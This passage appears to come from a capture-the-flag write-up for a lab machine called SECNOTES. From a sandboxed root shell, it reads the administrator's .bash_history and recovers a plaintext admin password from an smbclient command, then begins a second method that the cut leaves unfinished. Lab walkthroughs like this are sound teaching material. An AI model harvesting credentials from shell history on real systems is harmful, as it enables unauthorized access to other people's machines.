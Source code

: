 Now this root shell doesn’t have any specific privileges on the box. In fact, it has pretty sandboxed access, and can’t access anything tyler can’t access. But, I can look around in that sandbox, starting with the home directory:

```

root@SECNOTES:~# ls -la                                     
total 8                                       
drwx------ 1 root root  512 Jun 22  2018 .      
drwxr-xr-x 1 root root  512 Jun 21  2018 ..    
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc    
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile         
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem

```

The `.bash_history` isn’t empty… I’ll check it out:

```

root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
less .bash_history

```

It looks like the admin was trying to mount the local file system himself, and there’s the administrator password. It even seems that the user tried to clear the bash history, but because the current session is written in on exit, it only cleared history prior to this session.

### Find Admin Creds - Method 2: On Filesystem

The user’s bash file system is located in the users `AppData` folder inside the `rootfs` folder:
